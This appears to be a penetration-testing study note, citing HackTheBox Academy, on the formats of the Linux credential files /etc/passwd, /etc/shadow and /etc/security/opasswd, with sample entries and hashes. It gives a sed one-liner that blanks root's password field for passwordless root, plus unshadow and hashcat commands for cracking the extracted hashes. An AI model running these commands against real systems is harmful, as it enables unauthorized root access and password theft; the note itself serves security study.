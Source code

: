 # Linux

There are three important files in Linux that contain credentials:

- `/etc/passwd`
- `/etc/shadow`
- `/etc/security/opasswd`

## File Formats

### `/etc/passwd`

```
Login name : Password info : UID : GUID : Full name/comments : Home directory : Shell
```

```text title="/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

:::tip

If you have write access to `/etc/passwd`, you can remove the `x` from the password field and login without a password.

```bash
sed -i 's/root:x:0:0:root/root::0:0:root/' /etc/passwd
su # becomes root
```

:::

### `/etc/shadow`

```
Username : Encrypted password : Last PW change : Min. PW age : Max. PW age : Warning period : Inactivity period : Expiration date : Unused
```

```text title="/etc/shadow"
// highlight-next-line
root:$y$j9T$R0RrN9Av7269LVnz./0VY/$711vg7gW3vAuwTZaLPFhBajKipxhMZxEVuedKNRHGOC:19477:0:99999:7:::
daemon:*:19477:0:99999:7:::
...
sys:*:19477:0:99999:7:::
// highlight-next-line
test:$y$j9T$I880BuoLkcgdFY7yI6D6Q1$ryys0QSUpnpypR7iRt1XEIAPkCamtf3yO2c34g5DA77:19523:0:99999:7:::
```

### `/etc/security/opasswd`

> The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.
>
> Source: HackTheBox Academy

```text title="/etc/security/opasswd"
cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

The old passwords are separated by a comma:

```
$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0
$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

### Unshadow

The `unshadow` tool combines `/etc/passwd` and `/etc/shadow` into a single file.

```bash
unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

Then, you can use `hashcat` to crack the passwords:

```bash
hashcat -m 1800 unshadowed.txt /usr/share/wordlists/rockyou.txt
```